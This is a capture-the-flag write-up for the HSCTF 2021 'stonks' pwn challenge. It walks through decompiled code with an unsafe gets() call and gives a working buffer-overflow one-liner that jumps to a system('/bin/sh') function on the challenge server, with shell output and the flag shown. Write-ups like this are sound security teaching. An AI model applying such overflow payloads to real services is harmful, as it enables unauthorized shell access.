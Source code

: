 ## Problem ##

## Solution ##

I practically had this one during the competition but my exploit did not work for a reason I found out afterwords: stack alignment. I actually had not encountered this issue before but it necessitates inclusion of a `ret` address in our payload.

The provided binary had a fairly simple layout. We could open the binary in Ghidra and see the `main` function:

```console
undefined8 main(void)

{
  puts("Advanced AI Stock Price Predictor");
  vuln();
  puts("Thanks for using the Advanced AI Stock Price Predictor!");
  return 0;
}
```

Then, naturally, we would take a look at `vuln`:

```console
void vuln(void)

{
  char local_28 [28];
  uint local_c;
  
  printf("Please enter the stock ticker symbol: ");
  gets(local_28);
  local_c = ai_calculate();
  printf("%s will increase by $%d today!\n",local_28,(ulong)local_c);
  return;
}
```

The other functions of interest in this challenge are `ai_calculate` and `ai_debug`:

```console
int ai_calculate(void)

{
  int iVar1;
  
  iVar1 = rand();
  return iVar1 % 0x14;
}
```

and 

```console
void ai_debug(void)

{
  system("/bin/sh");
  return;
}
```

In the `vuln` function, the use of the `gets` method is [bad](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351), since `gets` will read in as much data as you pass it, even if the length of that data exceeds the size of the buffer it gets passed into. In this case the buffer is 28.

While debugging in GDB I identified that it takes a string of length 40 to breach RIP (the instruction pointer). I first simply added the address of `ai_debug` to a length-40 string, thinking it would jump to `ai_debug` and execute `system("/bin/sh"(`. This turned out to be incorrect due to the stack alignment issue. It was necessary to include the `ret` address of vuln prior to the start address of `ai_debug`. And with that we could execute the payload and retrieve the flag:

```console
root@osboxes:~/Documents/hsctf2021# (python -c 'from pwn import *; print "A" * 40 + p64(0x4012c2) + p64(0x401258)';cat) | nc stonks.hsc.tf 1337
== proof-of-work: disabled ==
Advanced AI Stock Price Predictor
Please enter the stock ticker symbol: AAAAAAAAAAAAAAAAAAAAAAAAAAAA will increase by $3 today!
ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat flag
flag{to_the_moon}
```

The flag is **flag{to_the_moon}**.
